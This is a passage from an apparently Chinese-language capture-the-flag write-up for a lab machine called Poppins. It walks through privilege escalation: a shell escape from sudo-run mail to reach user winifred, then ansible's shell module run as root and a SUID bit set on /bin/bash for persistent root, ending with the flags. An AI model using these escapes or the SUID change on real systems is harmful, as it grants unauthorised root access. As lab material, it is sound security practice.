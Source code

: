 Michael可以以winifred用户身份运行mail命令。

## 利用mail命令提升到Winifred

参考GTFObins，mail命令可以通过交互式shell逃逸，但是因为它这个mail命令版本太低（应该是吧）的原因，无法直接使用`--exec`参数，我们只可以给自己发送一个邮件，进到mail交互通过交互式shell逃逸：

```bash
michael@Poppins:/home$ sudo -u winifred /usr/bin/mail -s "test" winifred < /dev/null
Null message body; hope that's ok
michael@Poppins:/home$ sudo -u winifred /usr/bin/mail
Mail version 8.1.2 01/15/2001.  Type ? for help.
"/var/mail/winifred": 1 message 1 new
>N  1 winifred@poppins   Tue Sep 02 09:41   18/558   test
& !/bin/bash
```

成功获得winifred用户权限：

```bash
winifred@Poppins:/home$ sudo -l
...
User winifred may run the following commands on Poppins:
    (ALL) NOPASSWD: /usr/bin/ansible *
```

## 利用Ansible获得Root权限

Winifred可以无密码运行ansible命令。Ansible的shell模块可以执行任意命令：

```bash
winifred@Poppins:/home$ sudo /usr/bin/ansible localhost -m shell -a "id" 
[WARNING]: No inventory was parsed, only implicit localhost is available
localhost | CHANGED | rc=0 >>
uid=0(root) gid=0(root) groups=0(root)
```

为bash设置SUID位以获得持久的root权限：

```bash
winifred@Poppins:/home$ sudo /usr/bin/ansible localhost -m shell -a "chmod +s /bin/bash" 
...
winifred@Poppins:/home$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /bin/bash
winifred@Poppins:/home$ bash -p
bash-5.0# id
uid=1003(winifred) gid=1003(winifred) euid=0(root) egid=0(root) groups=0(root),1003(winifred)
```

# 八、获取flag

```bash
bash-5.0# cat /root/root.txt /var/mail/user.txt 
flag{root-bdabe071bed8018ba8e15d795d281843}
flag{user-b1d2367529a9edd2a6f9c95168bce12ei}
```

